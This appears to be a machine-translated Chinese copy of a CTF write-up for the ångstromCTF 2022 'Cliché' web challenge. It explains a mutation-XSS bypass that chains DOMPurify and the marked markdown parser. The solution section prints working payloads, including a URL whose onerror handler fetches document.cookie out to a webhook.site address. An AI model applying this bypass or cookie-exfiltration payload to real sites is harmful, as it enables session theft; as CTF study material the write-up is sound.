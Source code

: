 # 陈词滥调 ngstromCTF 2022

> 原文：<https://infosecwriteups.com/clique-writeup-%C3%A5ngstromctf-2022-e7ae871eaa0e?source=collection_archive---------1----------------------->

## DOMPurify 和 marked 中的突变 XSS

上周末，我和我的团队浮士德一起玩了 ngstromCTF 2022。在 CTF 期间，我遇到了一个相对简单但很聪明的网络挑战，我想和你们分享一下。这是陈词滥调。如果您只是来看解决方案的，请随意跳到最后一部分的结尾。

# 挑战

挑战文本承诺了最没意思的网络挑战，对此我必须表示反对。除了挑战的链接之外，还提供了一个管理机器人，它的 cookies 中有一个标志，并跟随一个给定的链接。

> 疲惫和荒凉，蛤蜊放弃了写作创意网页。相反，他把过度使用的挑战想法的轮子转了三次，得到了“pastebin”、“markdown”和“input sanitization”。瞧吧，[世界上最无趣的网络挑战](https://cliche.web.actf.co/)。

![](img/86fc426b8e21512d85ef38c1c263c3e8.png)

挑战页面由一个文本区域和一个按钮组成。

当我们打开挑战时，我们只看到一个添加内容的文本区域和一个查看内容的按钮。点击按钮重新加载网页，将 textarea 内容作为 URL 参数:`https://clicke.web.actf.co/?content=<u>foobar</u>`。然后，网页呈现内容。然而，任何明显的 XSS 都不会工作，所以我们接下来看一下源代码。

```
<script src="[https://cdn.jsdelivr.net/npm/dompurify@2.3.6/dist/purify.min.js](https://cdn.jsdelivr.net/npm/dompurify@2.3.6/dist/purify.min.js)"></script>
    <script src="[https://cdn.jsdelivr.net/npm/marked@4.0.14/lib/marked.umd.min.js](https://cdn.jsdelivr.net/npm/marked@4.0.14/lib/marked.umd.min.js)"></script>
...
<script>
 const qs = new URLSearchParams(location.search);
 if (qs.get(“content”)?.length > 0) {
 document.body.innerHTML = marked.parse(DOMPurify.sanitize(qs.get(“content”)));
 }
 </script>
```

代码揭示了为什么没有基本的 XSS 工作。因为挑战文本已经被破坏了，所以使用了 HTML 杀毒软件。在内容被添加到主体之前，页面首先用 [DOMPurify](https://github.com/cure53/DOMPurify) (版本 2.3.6)净化它，然后用标记为的 markdown 库[(版本 4.0.14)解析它。这两个模块都用于最新版本。](https://github.com/markedjs/marked)

由于我最近一直在研究奇怪的解析行为，很明显，挑战在于找到突变 XSS 有效载荷。

# 突变 XSS

什么是突变 XSS？mXSS 的概念在 Heider 等人的论文中有很好的解释。这基本上意味着各种解析器多次改变 XSS 有效载荷，从以前的良性内容变成恶意内容。为了说明这一点，请看下面的例子:

```
let init = '<form id="first"><div></form><form id="second">';
document.body.innerHTML = init;
let mutated_1 = document.body.innerHTML;
document.body.innerHTML = mutated;
let mutated_2 = document.body.innerHTML;console.log(init);
console.log(mutated_1);
console.log(mutated_2);// Output
<form id="first"><div></form><form id="second">
<form id="first"><div><form id="second"></form></div></form>
<form id="first"><div></div></form>
```

我们可以看到，通过将相同的字符串添加到 innerHTML 中，init HTML 字符串通过多次解析发生了变化。这很奇怪，不是吗，因为我们希望 HTML 保持它的形式。然而，这是由 [HTML 规范](https://html.spec.whatwg.org/multipage/parsing.html#serialising-html-fragments:the-script-element-4:~:text=DOM.-,For%20example%2C%20consider%20the%20following%20markup%3A,%3Cform)定义的行为。

如今，HTML 清理器或过滤器通常在浏览器呈现 HTML 输入之前先呈现它，以避免复杂的去模糊技术。然而，正如我们在上面看到的，HTML 内容并不总是保持不变，并且会随着多个解析过程而变化。事实上，这种奇怪的 HTML 边缘案例导致了各种各样的绕过，例如，在 DOMPurify [版本 2.0.0](https://research.securitum.com/dompurify-bypass-using-mxss/) 或[版本 2.0.17](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/) ，甚至在[谷歌搜索](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)中的 XSS。

# 解决办法

记住上一节，我们可以看到这个挑战有三个连续的解析器。首先，输入由 DOMPurify 解析，然后由 marked 解析，最后由浏览器通过 innerHTML 解析。这像 mXSS 一样臭。

在尝试了各种典型的 mXSS 技术(如表格、表单或样式元素)失败之后，我把注意力集中在了降价部分。我尝试了多种结合 HTML 内容的 markdown 元素，这些元素可能会触发 XSS。由于 DOMPurify 过滤了 HTML 中的所有恶意部分，我很清楚我必须找到一个破坏 HTML 的 markdown 元素，这样我就可以从隐藏在良性 HTML 部分中的内容中伪造一个恶意的有效载荷，例如，一个属性。这时我发现了 markdown 代码块(`)。

```
var inp ='`<p id="aaa`bbb">';
document.body.innerHTML = marked.parse(DOMPurify.sanitize(inp));
// Ouput
'<p><code>&lt;p id=&quot;aaa</code>bbb&quot;&gt;</p></p>\n'
```

如上所述，markdown 内联代码的优先级高于 HTML 元素，并且会破坏它。前半部分在代码块中结束；后半部分在外面。正是我需要的！

```
// Payload
`<p x="`<img src=x onerror=alert(1)>"></p>// Output
<p><code>&lt;p id=&quot;</code><img src=x onerror=alert(1)>&quot;&gt;</p></p>
```

有效载荷对于 DOMPurify 来说看起来不错，因为 id 中的恶意部分不会造成损害。但是，然后，标记打破了属性，并把它的代码元素放在它周围。因此，图像元素在属性之外，并被解析为标准元素，从而触发警报。

我发送给机器人的最终有效载荷如下所示，并给了我一个标志:

```
[https://cliche.web.actf.co/?content=`%3Cp%20x=%22%3Cimg%20src=x%20onerror=fetch(window.location.hash.substring(1)%2Bdocument.cookie)%3Efoo%3C/img%3E%22%20title=%22hello`%22%3E%3Cimg%20src=x%3E%3C/p%3E#https://webhook.site/1b96a1e3-307b-4f46-9f3a-e3eba4cc538d?x=](https://cliche.web.actf.co/?content=`%3Cp%20x=%22`%3Cimg%20src=x%20onerror=fetch(window.location.hash.substring(1)%2Bdocument.cookie)%3E%22%3E%3C/p%3E#https://webhook.site/1b96a1e3-307b-4f46-9f3a-e3eba4cc538d?x=)// Output on webhook.site:
actf{my_code_is_upside_down_topsy_turvy_1029318}
```

# 结论

这一激动人心的挑战再次表明，即使最初的意图是好的，在代码中加入 bug 也是多么容易。有趣的是 [marked 甚至推荐](https://marked.js.org/#usage) DOMPurify 作为消毒剂。然而，正如我们所看到的，这只有在卫生是这个过程的最后一步的情况下才有效。

除了我的解决方案，我相信一定有更有趣的方法来解决这个挑战。我很想知道还有什么其他可行的解决方案。

[https://twitter.com/fh4ntke](https://twitter.com/fh4ntke)